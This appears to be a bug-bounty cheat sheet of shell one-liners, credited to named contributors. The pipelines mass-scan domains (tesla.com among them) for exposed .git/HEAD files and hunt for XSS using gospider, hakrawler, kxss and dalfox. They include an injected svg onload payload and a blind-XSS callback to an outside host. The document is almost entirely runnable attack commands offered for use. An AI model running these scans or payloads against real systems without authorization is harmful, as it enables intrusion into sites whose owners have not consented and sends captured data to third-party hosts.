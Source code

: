 ## find .git/HEAD
> @ofjaaah
```bash
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

## Check .git/HEAD
> @ofjaaah
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

## Find XSS
> cihanmehmet
### Single target
```bash
gospider -s "https://www.target.com/" -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
### Multiple target
```bash
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
## Find XSS
> dwisiswant0
```bash
#/bin/bash

hakrawler -url "${1}" -plain -usewayback -wayback | grep "${1}" | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | kxss | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | dalfox pipe -b https://your.xss.ht

# save to .sh, and run bash program.sh target.com
```
## Kxss to search param XSS
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
echo http://testphp.vulnweb.com/ | waybackurls | kxss
```

## XSS hunting multiple
> @ofjaaah
```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```
